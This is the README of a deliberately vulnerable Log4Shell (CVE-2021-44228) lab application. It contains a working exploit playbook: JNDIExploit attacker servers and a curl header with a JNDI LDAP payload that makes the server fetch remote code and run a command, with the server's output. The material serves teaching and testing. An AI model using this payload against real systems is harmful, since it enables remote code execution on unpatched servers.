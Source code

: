 # Vulnerable application

This repository contains a Spring Boot web application vulnerable to `CVE-2021-44228`, known as [log4shell](https://www.lunasec.io/docs/blog/log4j-zero-day/).

It uses 
* `log-4j-core:2.14.1` (through `spring-boot-starter-log4j2`) and
* `openjdk:8u181`

## Running the application

Run it:

```bash
docker run --name vulnerable-app --rm -p 8080:8080 amtoya/log4shell-vulnerable-app
```

Or alternatively, build it yourself:

```bash
docker build . -t vulnerable-app
docker run -p 8080:8080 --name vulnerable-app --rm vulnerable-app
```

## Exploiting playbook

Using the following steps you can reproduce a log4shell exploit. 
If you are not familiar with how the attack works under the hood check out this [article](https://learn.snyk.io/lessons/log4shell/java/) repo.

**Update (Dec 13th)**: *The JNDIExploit repository has been removed from GitHub (presumably, [not by GitHub](https://twitter.com/_mph4/status/1470343429599211528)). I therefore recommend you to used the saved version from this repository.*

### Setup attacker servers
First we have to setup the attacker servers. This consist of
* a **LDAP server** that will redirect us to our malicious HTTP server
* a **HTTP server** that will return the harmful payload

We use [JNDIExploit](https://github.com/feihong-cs/JNDIExploit/releases/tag/v1.2) to spin up the attacker servers.

```bash
git clone https://github.com/AmitKulkarni9/log4shell-vulnerable-app.git
cd log4shell-vulnerable-app/src/main/resources
unzip JNDIExploit.v1.2.zip
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i [your-private-ip] -p 8888
```

### Triggering the exploit
As payload we want to execute `touch /tmp/pwned` (which corresponds to the base64-encoded `dG91Y2ggL3RtcC9wd25lZAo=`) on the vulnerable applications server.

Trigger the exploit using:

```bash
# will execute 'touch /tmp/pwned'
curl localhost:8080 -H 'user: ${jndi:ldap://[your-private-ip]:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'
```

The output of JNDIExploit shows that the attacker servers responded with the malicious exploit and executed the payload:

```
[+] LDAP Server Start Listening on 1389...
[+] HTTP Server Start Listening on 8888...
[+] Received LDAP Query: Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo
[+] Paylaod: command
[+] Command: touch /tmp/pwned

[+] Sending LDAP ResourceRef result for Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo with basic remote reference payload
[+] Send LDAP reference result for Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo redirecting to http://[your-private-ip]:8888/Exploitjkk87OnvOH.class
[+] New HTTP Request From /[your-private-ip]:50119  /Exploitjkk87OnvOH.class
[+] Receive ClassRequest: Exploitjkk87OnvOH.class
[+] Response Code: 200
```

To confirm that the code execution was successful, we check that the file `/tmp/pwned.txt` was created in the container running the vulnerable application:

```
$ docker exec vulnerable-app ls /tmp

...
pwned
...
```

## Reference

https://www.lunasec.io/docs/blog/log4j-zero-day/  
https://mbechler.github.io/2021/12/10/PSA_Log4Shell_JNDI_Injection/  
https://github.com/christophetd/log4shell-vulnerable-app/
